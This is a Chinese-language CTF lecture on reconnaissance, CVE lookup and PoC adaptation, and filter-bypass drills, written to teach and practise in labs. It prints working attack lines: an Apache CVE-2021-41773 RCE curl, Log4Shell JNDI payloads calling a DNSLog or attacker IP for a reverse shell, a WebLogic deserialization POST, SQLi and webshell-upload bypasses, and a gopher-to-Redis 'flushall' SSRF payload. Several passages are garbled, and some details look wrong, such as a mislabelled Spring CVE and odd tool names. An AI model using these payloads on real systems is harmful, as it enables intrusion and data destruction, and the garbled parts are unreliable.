


# 第二講 · CTF 攻防賽通用方法論（3.5 小時）

> 目標：建立「從零到拿到 Flag」的可複製流程——遇到任何題目（Web/Pwn/Misc）都能在 10 分鐘內完成情報面掃描、在 30 分鐘內完成漏洞猜想、知道何時該放棄。
> 前置：第一講環境已就緒（Kali VM、pwntools、Burp、SecLists）。

---

## 課程時間分配（3.5 小時）

| 段落 | 時長 | 內容 |
|------|------|------|
| 課前 | 5 min | 心態與賽制認知 |
| §1 | 50 min | 信息收集標準流程（指紋/版本/埠/目錄） |
| 休息 | 10 min | — |
| §2 | 80 min | CVE 檢索與 PoC 適配（含作業時間） |
| 休息 | 10 min | — |
| §3 | 60 min | Bypass 思維訓練（六大套路 + 綜合練習） |
| 收尾 | 5 min | 驗收 + 賽場分工 |

---

## 引言：CTF 是「節奏」的遊戲，不是「知識」的遊戲

- **理論派環節**：很多人知道 SSTI、SSRF、反序列化，但賽場上仍一行 payload 都沒敲——因為不知道「何時該試、試什麼、怎麼快速判斷有沒有打到」。
- **時間分散環節**：一堂 3 小時的 Web 賽，能穩拿的題目往往集中在第 1 小時。所有通用方法論的最大目的，是**把前 30 分鐘的生產力最大化**，而不是把所有漏洞背完。
- **速度優先於完美**：同一個漏洞嘗試 5 種 payload 的時間，往往比把 1 種追求「理論上應該可以」來得划算。

> 賽場上最大的浪費是：「這題我好像會，讓我慢慢想」。**要嘛 15 分鐘內出 Flag，要嘛留下筆記換下一題。**

---

## 1. 信息收集標準流程（50 分鐘）

### 1.1 心法：三層掃描（三分鐘沙盒、十分鐘深掃、題目專用掃描）



### 1.2 指紋識別（3 分鐘得到「這站叫什麼」的答案）

**命令面**：

```bash
# Kali 內建
whatweb -v http://target/
# 補充，需要 python
pip install wappalyzer; python3 -c "import wappalyzer" 2>/dev/null || true
# 通用指紋腳本（2026 年社群常用）
git clone --depth 1 https://github.com/EdgeSecurityTeam/EHole /opt/ehole
echo 'http://target/' | /opt/ehole/ehole
```

**瀏覽器面**（講師 demo，5 分鐘）：
- Wappalyzer 打開 → 直接讀「自己所看到」的技術棧（如 `nginx + PHP 7.4 + WordPress`）。
- DevTools → Network → 第一個請求 → 看 `Server`, `X-Powered-By`, `Set-Cookie` 特徵（`JSESSIONID`→Java、`PHPSESSID`→PHP、`connect.sid`→Express/Node、`csrftoken`→Django、`laravel_session`→Laravel）。

**對號入座表**（博文的常見指紋）：

| 特徵 | 指向 | 常見攻擊面入口講義 |
|------|------|--------------------|
| `PHPSESSID` + `/index.php?xx=` | PHP | `Web/02-注入类漏洞.md`、`Web/04-檔案包含與讀取.md` |
| `JSESSIONID` / `.jsp` | Java | `Web/06-反序列化漏洞.md`、`Web/07-樣板注入SSTI.md`（Velocity/Freemarker） |
| `csrftoken` / `.py` | Python（Django/Flask） | `Web/07-樣板注入SSTI.md`、`Web/05-SSRF與XXE.md` |
| `connect.sid` | Node/Express | `Web/09-Code-Review與Patch實作.md`（原型污染） |
| `.aspx` / `ASP.NET_SessionId` | .NET | 較少見，但 viewstate 反序列化可打 |
| 靜態 `Powered by WordPress` | WordPress | xmlrpc、REST、plugin 漏洞 |

### 1.3 版本探測（找出「可以搜 CVE」的完整版本字串）

```bash
# HTTP 標頭細熬
curl -sI http://target/ | grep -Ei 'server|powered|x-'
# 靜態資源的指紋（讀饒過 file build 時間）
curl -s http://target/ | grep -oE '(ver=|v=|version[=/])[0-9][0-9.]+' | sort -u
# Nmap（Nmap 自帶版本探測腳本，Web 服務也可以用）
nmap -sV --version-light -p80,443,8080,8443 target
# 綜合（慢但全）
nikto -h http://target/ -o nikto.html
```

> **內典**：題目裡的版本號要「錙銖必較」。顯示 `Apache 2.4.49` 與 `2.4.50`，前者就是 CVE-2021-41773（路徑穿越 + RCE），後者只是 41773 的修正版之一（仍有 CVE-2021-42013）。錯一個小數點就會在搜尋引擎浪費 10 分鐘。

### 1.4 端口/服務枚舉（10 分鐘內完成）

```bash
# 快篩（Top 1000）— 賽場第一步，不要一開始就 full range
nmap -sV --top-ports 1000 -T4 <target>
# 全端口（後台慢慢跑，不占前台時間）
nmap -p- -T4 --open <target> -oA fullscan
# 針對開放埠再深掃腳本
nmap -sC -sV -p <port1,port2> <target> -oA detail
```

**常見 CTF 埠對照表**（記住“看到就試”的反應）：

| 埠 | 服務 | 立刻要做的動作 |
|----|------|----------------|
| 21 | FTP | 匿名登入 `ftp target`（帳密 anonymous/空） |
| 22 | SSH | 看版本、banner；是否弱金鑰 |
| 23 | Telnet | banner 常直接吐 flag 或帳密 |
| 80/443/8080 | HTTP(S) | §1.2 起重掃 |
| 3306 | MySQL | 空帳密、安全模式、日誌 |
| 3389 | RDP | （內網題）強化帳密爆破 |
| 5432 | PostgreSQL | `postgres/postgres` |
| 6379 | Redis | 未授權 `redis-cli -h target`；寫 shell/crontab |
| 873 | rsync | 列模組 `rsync target::` |
| 27017 | MongoDB | 未授權 |
| 9000 | PHP-FPM / SonarQube | fastcgi RCE（若 /fpm 端口暴露） |
| 1337/9999/10010 等 | 自訂服務 | `nc target <port>`，看要求輸入 |

### 1.5 目錄爆破（把「看不到的介面」找出來）

**工具選擇**：

| 工具 | 適用情境 | 範例 |
|------|----------|------|
| `gobuster` | 快、穩 | `gobuster dir -u http://t/ -w /opt/SecLists/Discovery/Web-Content/common.txt -t 40 -x php,txt,html,bak -b 404` |
| `feroxbuster` | 遞迴、快 | `feroxbuster -u http://t/ -w common.txt -d 2 --extensions php,txt -t 40` |
| `dirsearch` | 自帶字典、易入門 | `dirsearch -u http://t/ -e php,asp,aspx,jsp,html,txt,bak -t 30` |
| `ffuf` | 精準控制（模糊符） | 見下「參數爆破」 |

**參數爆破**（很多後門不見於 URL，要看 Query 物件有沒有「隱藏鍵值」）：

```bash
pip install arjun
arjun -u http://t/api/view --get --post
# 或用 ffuf 詞表 FUZZ
ffuf -w /opt/SecLists/ Discovery/Web-Content/burp-parameter-names.txt \
     -u 'http://t/?FUZZ=test' -fs 0
```

**`.git` / `.svn` / `.DS_Store` 一鍵扒源碼**：

```bash
git clone --depth 1 https://github.com/lijiejie/GitHack /opt/githack
python3 /opt/githack/GitHack.py http://target/.git/
# .DS_Store
python3 /opt/ds_store_exp.py http://target/.DS_Store 2>/dev/null || \
  pip install ds_store_exp 2>/dev/null || true
```

> 課堂 demo（講師）：起一個含 `/backup.zip` 的站 → whatweb → gobuster 找出 → 解壓得 DB 密碼。**整個流程 5 分鐘，讓學員看到「字典 → 界定 → 取源碼」三步串起來的效果。**

### 1.6 信息收集 SOP 簡報頁（打印貼牆）

```
[ ] 1. whatweb + Wappalyzer                → 技術棧
[ ] 2. curl -sI                            → 版本字串（抄下來）
[ ] 3. /robots.txt /sitemap.xml /.git      → 隱藏文件
[ ] 4. nmap top1000                        → 開放服務
[ ] 5. gobuster/feroxbuster（common.txt）   → 隱藏路徑
[ ] 6. arjun / ffuf 參數                    → 隱藏參數
[ ] 7. 逐表單走一遍（註冊→登入→上傳→搜尋）  → 業務面
[ ] 8. 把所有版本抄成一列，統一拿去搜 CVE    → 交給 §2
```

---

## 2. CVE 檢索與 PoC 適配（80 分鐘）

### 2.1 心法：CVE 不是「拿腳本就跑」，而是三步曲



**三步曲**：
1. **檢索**：產品名+版本 → 得 CVE 候選清單（見下）。
2. **條件確認**：讀 PoC / advisory，確認「利用前提」（如：需要 `/debug` 端點、需要上傳權、需 PHP < 8）。
3. **適配**：改變數（URL、命令、payload 編碼），並先在本地靶機測。

### 2.2 檢索的五大入口（按優先級）

| 入口 | 何時用 | 連結 |
|------|--------|------|
| **NVD 官方搜尋** | 知道產品名要 latest | https://nvd.nist.gov/vuln/search |
| **Exploit-DB** | 找可用 PoC | https://www.exploit-db.com |
| **GitHub Search**（好過 Google） | 新CVE、腳本變體 | `https://github.com/search?q=<product>+CVE&type=repositories` |
| **vulhub** | 快速確認利用條件、亂序爆點 | https://github.com/vulhub/vulhub |
| **Google Dorks / 特殊平台** | 新尚未立案的漏洞 | `inurl:/.git`、X/Twitter/Chinese 社群 |

> **CTF 招式**：在 GitHub Search 用 `CVE-2024-XXXXX poc -advisory` 可以過濾掉證書類瘦長報導，直接跳 script 候選。

### 2.3 從版本到 PoC 的完整 demo（講師掃 25 分鐘，學員跟做 25 分鐘）

**案例 A：Apache HTTP Server Path Traversal → RCE（CVE-2021-41773 / 42013）**

```bash
# Step1 版本確認
curl -sI http://target/  | grep -i server
# → Server: Apache/2.4.49 (Unix)

# Step2 NVD 搜 2.4.49 → CVE-2021-41773（路徑穿越）
# 官方描述总结: mod_cgi 啟用時可透過 ../ 繞到 /bin/sh

# Step3 條件確認: PoC 需 2.4.49（42013 為 2.4.50 修正後變體）
curl -s http://target/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
# %2e = URL 編碼的 "." → 繞過標準化

# Step4 改寫為 RCE（需要 mod_cgi 開啟）
curl -s --path-as-is "http://target/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" \
     -d 'echo Content-Type: text/plain; echo; cat /flag'
# 或用 /bin/sh POST body 作為 shell 輸入

# 備註: 2.4.50 仍有 CVE-2021-42013 —— 需要雙重編碼 %2e%%32%65
```

**案例 B：Log4Shell（CVE-2021-44228）—— 「有 JNDI 就有機會」**

```bash
# Step1 確認注入點：任何進 log 的欄位（User-Agent、X-Forwarded-For、表單）
# Step2 檢索: github "log4shell poc" → fsmiamoto/JNDI-Exploit-Kit / WhiteHS/EXP

# Step3 用 LDAP 反彈符接 DNSLog
# 1) 開 DNSLog（dnslog.cn）取隨機子域
# 2) 發送:
curl http://target/ -A '${jndi:ldap://xxxxx.dnslog.cn/x}'
# 3) DNSLog 有回應 → 確認可出網 → 搭反彈 shell
# 本地: java -jar JNDI-Exploit-Kit.jar --ip <your-ip>
# payload:
${jndi:ldap://<your-ip>:1389/ExportObject}
# 若出網被阻 → 本地 Reference + Base64 payload
${jndi:ldap://127.0.0.1:1389/#Exploit}
```

> Agent 檢索（一部分人腦一 oppression 忘的事）：**Log4Shell 的 flag 常藏在 `flag{}` 於 `/flag`, 或環境變數 `FLAG`——反彈 shell 後 `env | grep -i flag`，別只 `cat /flag`。**

**案例 C：WebLogic 反序列化（CVE-2017-10271，XMLDecoder 引子）**

```bash
# vulhub 一鍵靶機
cd /opt/vulhub/weblogic/CVE-2017-10271 && docker compose up -d
# 檢索 PoC（含 <void property>/<xml> 結構）
# 利用: POST /wls-wsat/CoordinatorPortType
curl -s -X POST http://127.0.0.1:7001/wls-wsat/CoordinatorPortType \
     -d @xmldecoder-poc.xml
```

> 這類 Java 反序列化 PoC 多為「模板 XML / YAML」，改動數時注意：**不要破壞 XML 結構（void/object/work 的層級），只換值**。改錯層級就不會報 500——直接「沒效果但以為跑了」。

### 2.4 GitHub 找 Master PoC 的搜尋語句（速查卡，可列印）

```
<product> <cve> poc
<product> <cve> exploit
<product> <cve> in:file language:python
CVE-YYYY-NNNN  stars:>5
CVE-YYYY-NNNN  fork:false
```

### 2.5 改寫既有 PoC 的五個常見「不適配」點

| 症狀 | 原因 | 解法 |
|------|------|------|
| PoC 打靶機「沒效果」也不報錯 | URL 路徑前綴不同（例如系統加 `/app/`） | 逐行改 `requests.get(URL)` 的 URL；加 `--path-as-is`/`print()` 確認請求是否真發出 |
| 條件檢查不過（403/500） | 版本差一點點或指紋不對 | 先在本地 vulhub 拉原版確認 PoC 有效，再慢慢改 |
| 命令不出網 | 靶機禁外連 | 編碼/內網探測；Web 反彈改為 HTTP 鏈 |
| Shell 建立後「莫名斷線」 | reverse 用了 Host IP 但雙向 NAT | 用 `crypto.tcp` 外用直接 IP；切換 snamed tun0 |
| PHP 撰寫語法在 Debian 失效 | 預設 shell 非 bash | 改 `/bin/sh` 或先 `python3 -c '……'` |

### 2.6 課堂練習（兩組人，各完成一個，20 分鐘）

> 題目環境由講師用 vulhub 起，Flag 放於本地 `/flag`。

1. **組 A**：`vulhub/thinkphp/5023`（ThinkPHP 5.0.23 RCE）
   - 目標：不用現成 HTML，**手寫** curl 觸發 RCE，找 `/flag` 內容。
2. **組 B**：`vulhub/spring/spring-messaging-43195`？（Spring Messaging CVE-2021-24545 類） 
   - 目標：先用 DNSLog 確認出網 → 改 payload 為 `cat /flag` 並將結果回傳。

> 驗收方式：把 PoC 過程打成簡短的 Writeup（`05-模板/Writeup報告模板.md`），張貼在平台「討論」區，講師點名兩組講解思路。

---

## 3. Bypass 思維訓練（60 分鐘）

> 很多 CTF 題的技術含量極高，但「過濾方式」不過是 3-4 種函數的組合。我們把它們拆成「六大套路」，任一壓縮後都能闖關。

### 3.1 六大套路總覽

| # | 套路 | 一句話 | 經典例子 |
|---|------|--------|----------|
| 1 | **編碼轉換** | 吃對方函數「校正不嚴」的漏洞 | URL 編碼、二次解碼、Base64、Unicode 角化（`%252e`） |
| 2 | **大小寫/同義** | 匹配是「字面」的，解釋是「語意」的 | `SeLeCt`、`<ScRiPt>`、`/**/`、`UNION%0bALL` |
| 3 | **特殊字元** | 用「註釋/引號/反引號」擋正則 | 值傳 `/*`，標識符含 `` ` `` |
| 4 | **協議層** | 絕不走「通常的那一條路」 | `gopher://`、`dict://`、HTTP/0.9、HTTP/2 偽請求 |
| 5 | **拼接重構** | 讓語句造字變「不被當句子」 | `concat('a','b')`、`char()/chr()` |
| 6 | **作用域遷移** | 改「上下文」而非「內容」 | SQL `WHERE` 換 `ORDER BY`；函數參數 vs child shell |

### 3.2 訓練場一：SQL 注入黑名單繞過（20 分鐘）

**情境**：Web 題做 `/so.php`，`?keyword=xx`；後端大致：

```php
$sql = "SELECT id,title FROM post WHERE id=" . preg_replace('/(and|or|select|union|\*)/i', '', $_GET['id']);
```

**測試方向，一個一個打（課堂「過濾節奏表」）**：

```text
輸入 payload 候選（每敲一個，觀察行為（顯示/報錯/跳韶））
①  union           → 若回顯不一致 → 黑名單
②  1 UNION SELECT  → 報錯/空白 → 繼續
③  1/**/UNION/**/SELECT                        → 用註釋隔開
④  1 %0bUNION GO%0bSELECT                      → HTTP 邊界字元（部分 DB）
⑤  1+UNION+SELECT 1                            → 空格被濾
⑥  -1'UnIoN SeLeCt 2,3                 → 大小寫
⑦  -1' UNI%4fN SELECT                          → URL 編碼個別字元
⑧  多重編碼 %25UNION%25SELECT                   → 二次解碼型黑名單
⑨  5 UNION+SELECT-5                            → 空白替代（+）
⑩ 5 UNION/**/SELECT ( SELECT 1 FROM dual )     → 子查句
```

**在座驗收**：每組講一段（1 分鐘）：「我最初 payload、被何種黑名單攔下、改用哪種套路、銀幕結果。」講師總結。

### 3.3 訓練場二：上傳黑名單全部跑法（20 分鐘）

**情境**：上傳介面，後端：

```php
$black = ['php','php3','php5','phtml','php.bak','php.'];
$ext = strtolower(pathinfo($f['name'], PATHINFO_EXTENSION));
if (in_array($ext, $black)) die('bad');
move_uploaded_file($f['tmp_name'], 'up/' . $f['name']);
```

**攻擊方向**（每組試到成功為止，10 分鐘）：

| 套路 | payload | 原理 |
|------|---------|------|
| 3 特殊字元 | `shell.php%00.jpg`（PHP<5.3.4） | 截斷，擋在黑名單前 |
| 1 編碼轉換 | `shell.pHp` 或 `SHELL.PHP` | `strtolower` 不夠看 |
| 3 特殊字元 | `shell.PHP.` （點號） | Windows 建 `shell.PHP`（去尾點） |
| 3 特殊字元 | `shell.php::$DATA`（Windows） | NTFS 串流 |
| 3 | `shell.php\x20.`（空格+點） | 同上 |
| 1 | `shell.phar`, `shell.pht` | 部分環境仍會執行 |
| 4 協議 | `.htaccess` 上傳 + `AddType application/x-httpd-php .jpg` | 改 Apache 配置再上 jpg |

> 大原則：**不要撒「所有 payload 排一碗」**；先找到下一個過濾點，再定向加一種套路，繞過成功率才會高。

### 3.4 訓練場三：WAF／黑名單泛用的「摩擦術」（10 分鐘 demo）

```bash
# 假設注入點與 sqlmap 搭配被 WAF 過濾
sqlmap -u 'http://t/so.php?id=1' \
    --tamper=space2comment,randomcase,space2plus \
    --level=3 --risk=2 --batch
# tamper 腳本選擇即 §3.1 六大套路的機器版
```

### 3.5 訓練場四：SSRF 協議遷移（套路 4，10 分鐘）

**情境**：有 `/fetch?url=` 型 API，後端 `curl_exec`。

```text
機能先確認:
①  http://127.0.0.1:6379/  →  如果有連接，繼續
②  file:///etc/passwd  →  if allow_url_include 開啟
③  gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall  → Redis 指令去執行
④  dict://127.0.0.1:6379/INFO  →  更快做 TCP 探測
```

> 只有「可以送 HTTP」就想打內網時，優先 **gopher**（可模仿任意協議）；只探測開放埠時 prefer **dict**（每 TCP 一次會話）。

### 3.6 小結與「賽場反應順序」

遇到被過濾，**依此順序盲目嘗試是浪費的**；按「套路最可能生效」排序：

1. 先看過濾行為本身：403=語意匹配；500=語法破壞；404=路由隱藏；200+回顯變化=內部邏輯在啟動。
2. 判斷是「黑名單關鍵字」還是「正則形狀」→ 對應「套路 2/3」vs「套路 1」。
3. 協議層（套路 4）通常成本高，先確認對方能對外呼叫。
4. 拼接重構（套路 5）多用於 DB（`concat`、`substr`）、語法器（SSTI 內建 `~`）。

---

## 4. 通用節奏收尾 + 賽場分工（5 分鐘）

### 4.1 「15 分鐘規則」

> 每 15 分鐘沒有新進展：立刻切走（寫兩行筆記），並且：
> - 同隊友交流「我看到的面」→ 判斷是否重複(Pew的讀 X 意凡夫 (01-11)–改)。
> - 換下一題或一次；**不 done，「零進展兩小時」**。

### 4.2 分工模板（3 人隊）

| 角色 | 職責 | 通用打卡 |
|------|------|----------|
| Exec / 攻擊手 | 按題目單堵前 3-5 題，明確試 payload | 通用 inventory 半小時更新 |
| Recon / 信息手 | 掃全套目標、Share 指紋到共享文檔 | 每學題目都準備一份？ |
| Intel / 資料手 | 搜 CVE、找 PoC 練適配 | 有版本 → 立刻搜，不出 15 分鐘 |
| 通用（1人） | 賽場記錄（Writeup 半小時同步）與 flag 結 cybersecurity CTF 快查 | |

### 4.3 本講驗收

1. 寫出「三層掃描」各自大致用時、內容。
2. 拿到 `Server: Apache/2.4.49` → 下一秒該做什麼？
3. 目錄爆破的字典選擇為何是 `common.txt` 開始（而非 raft-large）？
4. 六大 bypass 套路舉 3 個例子（含協議層的一個 URL）。
5. 15 分鐘規則下，管理的三件事是什麼？

---

## 附錄 A: 通用資訊收集腳本（賽前預寫，30 秒速掃）

> 同概念的賽前工具版：把本腳本與 `05-模板/` 下的模板一同放進 `~/tools/`。

```bash
#!/usr/bin/env bash
TARGET="${1:?usage: $0 http://target/}"
OUT="recon-$(echo "$TARGET" | md5sum | cut -c1-6)"
mkdir -p "$OUT"

echo "== headers =="   ; curl -sI "$TARGET" | tee "$OUT/headers.txt"
echo "== whatweb =="   ; whatweb -a3 "$TARGET" | tee "$OUT/whatweb.txt"
echo "== robots =="    ; for p in robots.txt sitemap.xml .git/HEAD .env \
                         .DS_Store backup.zip index.php.bak; do
                          code=$(curl -s -o /dev/null -w '%{http_code}' "$TARGET/$p")
                          [ "$code" != "404" ] && echo "[${code}] $TARGET/$p" | tee -a "$OUT/file-miss.txt"
                         done
echo "== gobuster =="  ; gobuster dir -u "$TARGET" \
                          -w /opt/SecLists/Discovery/Web-Content/common.txt \
                          -t 30 -q -b 404 -o "$OUT/gobuster.txt"
echo "== nmap =="      ; nmap -sV --top-ports 1000 -T4 \
                          "$(echo "$TARGET" | sed 's|.*://||;s|/.*||')" \
                          -oA "$OUT/nmap" -Pn --open
echo ">> 檢查 $OUT/ 各檔案"
```

## 附錄 B: 推薦延伸閱讀

- OSIWA 《Web Application Hacker's Handbook》第 2 版（資訊收集章）
- `https://book.hacktricks.xyz` （各協議服務的預設帳密與攻擊面速查，一本夠用）
- `https://swisskyrepo.github.io/PayloadsAllTheThings/` （Payload 速查，可搭配 §3）
